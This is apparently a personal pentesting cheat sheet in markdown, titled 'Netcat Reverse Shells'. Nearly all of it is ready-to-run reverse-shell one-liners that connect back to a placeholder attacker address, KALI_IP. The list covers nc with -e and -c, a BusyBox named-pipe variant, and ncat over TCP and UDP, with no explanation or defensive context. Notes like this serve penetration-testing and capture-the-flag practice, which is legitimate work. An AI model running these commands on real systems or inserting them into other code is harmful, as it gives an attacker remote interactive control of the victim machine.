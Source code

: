```yaml
---
title: Netcat Reverse Shells
tags: shells/reverse/netcat
share: true
date: 2024-12-15
---
```


## Basic Netcat Reverse Shells

```bash
nc -e /bin/sh KALI_IP 9999
```

```bash
nc -e /bin/bash KALI_IP 9999
```

```bash
nc -c bash KALI_IP 9999
```

## Netcat BusyBox Reverse Shell

```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 9999 >/tmp/f
```

## Ncat Reverse Shells

```bash
ncat KALI_IP 4242 -e /bin/bash
```

```bash
ncat --udp KALI_IP 4242 -e /bin/bash
```